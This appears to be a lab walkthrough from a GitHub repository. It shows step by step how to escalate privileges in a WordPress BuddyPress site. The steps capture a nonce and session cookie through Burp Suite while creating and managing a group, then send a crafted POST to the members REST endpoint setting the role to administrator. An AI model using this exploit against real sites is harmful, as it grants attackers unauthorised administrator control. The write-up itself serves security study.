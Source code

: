 ![This is an image](https://github.com/warren2i/docker/blob/master/lab%20pics/6.png?raw=true)
![This is an image](https://github.com/warren2i/docker/blob/master/lab%20pics/7.png?raw=true)
 
Finding the nonce.

Let's talk about what buddypress tries to achieve.

“BuddyPress helps you build any kind of community website using WordPress, with member profiles, activity streams, user groups, messaging, and more.”

We are going to exploit the groups function to try and obtain the WP-Nonce




Let's check the groups for the nonce?
 
 
Lets create a group

![This is an image](https://github.com/warren2i/docker/blob/master/lab%20pics/8.png?raw=true)

Use Burp Suite proxy and pause the requests and step over, follow the workflow to create a group, keep your eyes peeled for the X-WP-Nonce and Cookie.

In the first section (Enter Group Name & Description)we find the cookie.
``` 
Cookie: wp-settings-time-6=1673475146; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_1be8abdff50a11d493930c4498bcea44=test10%7C1673677770%7CSTA8r35d5LxrbTT1esDeqmnBnzlfEVSPNjacQkAg34s%7C13210b72a8690802f0be7455f6e7ff088c7d8bb305a21dbf389b64fcf6a111aa; wp-settings-time-11=1673504970; bp_new_group_id=29; bp_completed_create_steps=WyJncm91cC1kZXRhaWxzIl0%3D
```
 

Quickly step over the rest of the steps, you will be presented with the group landing page for the group you have just created. Notice in the header “Group Administrators” interesting?

Lets click manage
>> members

We are presented a page where we can complete admin like functions such as edit ban and remove users from the group.

Lets try the Ban function and inspect the request.
```  
X-WP-Nonce: 8af0f38b91
``` 
 
Nice, we have found the nonce.

If we now craft this request and send it to the vulnerable endpoint /wp-json/buddypress/v1/members/me we should be able to elevate our privs.
``` 
POST /wp-json/buddypress/v1/members/me HTTP/1.1

Host: 192.168.0.16:7006
Accept: application/json, */*;q=0.1
X-WP-Nonce: 8af0f38b91
Content-Type: application/json; charset=UTF-8
Cookie: wp-settings-time-6=1673475146; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_1be8abdff50a11d493930c4498bcea44=test10%7C1673677770%7CSTA8r35d5LxrbTT1esDeqmnBnzlfEVSPNjacQkAg34s%7C13210b72a8690802f0be7455f6e7ff088c7d8bb305a21dbf389b64fcf6a111aa; wp-settings-time-11=1673504970; bp_new_group_id=29; bp_completed_create_steps=WyJncm91cC1kZXRhaWxzIl0%3D
Content-Length: 45



{
        "roles": "administrator"
    }
```

